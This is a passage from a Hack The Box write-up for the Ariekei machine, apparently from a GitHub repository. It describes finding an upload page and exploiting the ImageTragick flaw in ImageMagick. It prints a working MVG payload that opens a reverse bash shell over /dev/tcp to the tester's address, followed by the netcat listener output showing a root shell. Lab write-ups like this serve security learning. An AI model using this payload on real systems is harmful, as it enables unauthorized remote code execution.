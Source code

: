 ```
  ```
  
  GET REKT!
  
  Let the trolling begin.
  
  There is a WAF which is gonna troll us all the way, lets take a look at this later
  
  
  
  
  
* **calvin.ariekei.htb**

    Not Found?!

    <kbd><img src="https://github.com/jakobgoerke/HTB-Writeups/blob/master/Fulcrum/Images/Website-4.PNG"></kbd>
    
After doing some dirbusting we find a directory named /upload which has a very peculiar looking page
    
I tried to upload some normal jpg files with a simple php shell and some other tricks up my sleeve (which isnt too long )
    
The only thing left to try is [Image Tragic exploit](https://imagetragick.com/)
    
Lets create a mvg file with the contents:
    
```
push graphic-context
viewbox 0 0 640 480
fill 'url(https://example.com/image.jpg"|/bin/bash -i >/dev/tcp/10.10.14.54/4444 0<&1 2>&1 &")'
pop graphic-context
```

Start a listner at 4444

Use browse and upload the image

And Voila!!

```
root@kali:~/hackthebox/Ariekei# nc -nvlp 4444
listening on [any] 4444 ...
connect to [10.10.14.54] from (UNKNOWN) [10.10.10.65] 53582
[root@calvin app]# hostname
calvin.ariekei.htb
```

 We got root shell!?!?!

Its inside a docker :( feelsbadman
